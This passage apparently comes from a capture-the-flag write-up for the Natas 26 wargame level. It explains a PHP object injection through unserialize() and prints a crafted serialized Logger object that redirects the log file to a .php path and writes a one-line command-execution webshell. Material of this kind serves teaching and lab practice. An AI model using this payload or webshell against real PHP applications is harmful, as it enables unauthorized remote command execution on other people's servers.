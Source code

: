   session_start();

  if (array_key_exists("drawing", $_COOKIE) ||
    (  array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
      array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){ 
    $imgfile="img/natas26_" . session_id() .".png"; 
    drawImage($imgfile); 
    showImage($imgfile);
    storeData();
  }
  
?>
{% endhighlight %}

Whew! So much code&#8230; the levels are getting real good now!

From reviewing the code, it looks like the vulnerability is PHP OBJECT INJECTION via the unserialize() call. According to [OWASP](https://www.owasp.org/index.php/PHP_Object_Injection) on the nature of this vulnerability, we should be able to use the unserialize() call to overwrite &#8216;Logger => exitMsg&#8217;. When the page calls Logger.__destruct() method, our modified exitMsg will be saved into the log file. We should then be able to open the log file and get a stored XSS to read out the password.

We need to know the [structure](https://stackoverflow.com/questions/14297926/structure-of-a-serialized-php-string) of serialized data pretty well to make our own. Once base64 decoded, an example of serialized data from this page is:

{% highlight php %}
a:1:{
  i:0;a:4:{
    s:2:"x1";
    s:1:"1";
    s:2:"y1";
    s:1:"2";
    s:2:"x2";
    s:1:"3";
    s:2:"y2";
    s:1:"4";
  }
}
{% endhighlight %}

Since we actually can control the &#8216;$logFile&#8217; variable as well as &#8216;$exitMsg&#8217;, we can change the log file into a php file, and make a webshell for executing commands!

An example of serialized data for a request that manipulates both variables:

{% highlight php %}
a:1:{
  i:0;
  O:6:"Logger":2:{
    s:15:"\0Logger\0logFile";
    s:31:"img/natas26_ponderngnatas26.php";
    s:15:"\0Logger\0exitMsg";
    s:21:"<pre> <?=`$_GET[1]`?>";
  }
}
{% endhighlight %}
